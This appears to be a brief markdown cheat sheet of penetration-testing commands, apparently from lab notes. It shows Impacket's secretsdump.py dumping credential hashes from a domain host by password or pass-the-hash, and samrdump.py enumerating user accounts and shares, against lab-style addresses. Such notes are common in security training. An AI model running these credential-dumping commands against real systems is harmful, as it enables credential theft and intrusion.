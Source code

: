 # Secrets Dump
### Impacket - Secretsdump.py
```bash
secretsdump.py MARVEl.LOCAL\fcastle:'Password1'@10.13.37.20

secretsdump.py administrator@10.13.37.20 -hashes LM:NT
```

### Impacket - Samrdump.py
Impacket’s samrdump.py communicates with the Security Account Manager Remote (SAMR) interface to list system user accounts, available resource shares, and other sensitive information.

```bash
samrdump.py 10.129.14.128

samrdump.py test.local/john:password123@10.10.10.1
```